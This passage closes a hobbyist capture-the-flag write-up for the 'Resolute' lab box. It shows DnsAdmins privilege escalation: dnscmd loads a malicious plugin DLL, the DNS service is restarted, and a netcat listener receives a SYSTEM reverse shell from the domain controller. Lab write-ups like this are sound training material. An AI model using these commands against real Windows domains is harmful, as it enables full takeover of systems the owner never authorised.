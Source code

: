 ```
cmd /c 'dnscmd RESOLUTE /config /serverlevelplugindll C:\Windows\System32\spool\drivers\color\exploit.dll'

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```
This dll will be run once the DNS-Service restarts, which we can force as a DnsAdmin with the follwing commands:
```
cmd /c "sc stop dns"
cmd /c "sc start dns"
```

Now all thats left is to use netcat on your host maschine and wait for the incomming connection from the DC

```
nc -lvnp 9111
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9111
Ncat: Listening on 0.0.0.0:9111
Ncat: Connection from 10.10.10.169.
Ncat: Connection from 10.10.10.169:56778.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

# 0x3 Closing Words

This box actually took me forever, the second Windows box I have owned so far and the first time I have ever worked with DLLs. I did learn a lot from it and I personally think this was an awesome box!